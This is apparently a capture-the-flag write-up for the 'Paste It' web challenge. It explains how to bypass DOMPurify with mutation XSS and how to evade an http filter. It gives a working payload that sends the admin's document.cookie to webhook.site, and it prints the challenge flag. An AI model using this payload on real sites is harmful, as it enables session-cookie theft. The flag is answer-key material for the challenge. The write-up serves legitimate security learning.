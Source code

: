 # Paste It
> I made my own "Pastebin", its called "Paste It". It's 100% Free and 101% Secure. What you waiting for? share your paste to your friend right now!.

## About the Challenge
Provided the website along with the source code (You can get the source code [here](web_pasteit.zip)). The website has a function to enter a link that will be shared, and later our input results can be shared with other people

![preview](images/preview.png)

## How to Solve?
After checking the source code there is `DOMPurify` which makes us unable to enter the XSS payload directly into the form. This can be bypassed by referring to this [website](https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss)

Then there is also a filter if the input contains the string `http` or `www.` Then it will be replaced with `a` tag. but this can still be bypassed by separating between `http` or using a double slash `//`

![filter](images/filter.png)

So the final payload is:
```
<math><mtext><table><mglyph><style><!--</style><img title="--></mglyph><img src=1
onerror=window.location.replace('htt'+'ps://webhook.site/?test='+document.cookie)>;">
```

And then after XSS payload works successfully, then give an `id` to the admin by requesting the endpoint `/api/report` with the body `id`

![report](images/report.png)

Check the webhook and there will be a flag on `Request Details`

![flag](images/flag.png)

```
ARA2023{pr07otyp3_p0llUt10n_g4Dg3t_t0_g3t_XSS}
```